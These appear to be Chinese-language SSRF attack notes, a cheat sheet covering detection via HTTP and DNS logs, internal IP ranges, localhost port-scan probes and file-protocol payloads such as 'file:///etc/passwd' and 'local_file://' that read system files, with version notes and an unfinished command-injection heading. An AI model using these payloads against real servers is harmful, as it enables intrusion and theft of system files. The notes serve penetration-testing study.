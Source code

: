 ## 判斷方法
### HTTP Access Log
看自己的伺服器是否有收到 Request
有可能對方的防火牆有檔 http 對外

### DNS Log
大部分的防火牆不會檔 DNS 查詢

### 返回內容
透過 Banner, Title, Content 等資訊來辨認


## Intranet IP Range
- `127.0.0.1/8`
- `10.0.0.0/8`
- `172.16.0.0/12`
- `192.168.0.0/16`


# Payloads
[cujanovic SSRF-Testing](https://github.com/cujanovic/SSRF-Testing)


# Attacks
## XSPA
- port scan
    - `127.0.0.1:80` => OK
    - `127.0.0.1:87` => Timeout
    - `127.0.0.1:9487` => Timeout

## 本地利用
目標可以參考 [LFI](https://hackmd.io/@WildfootW/Bk_8tZ4sS)
### file protocol
- `file:///etc/passwd`
- `file://localhost/etc/passwd`
- `curl file://google.com/etc/passwd`
    - 新版已修掉
    - 實測libcurl 7.47可work
### Java 原生可列目錄
- `file:///var/www/html/`
- `netdoc:///var/www/html/`

### Python
- `local_file:///etc/passwd`
### Perl/Ruby open Command Injection
    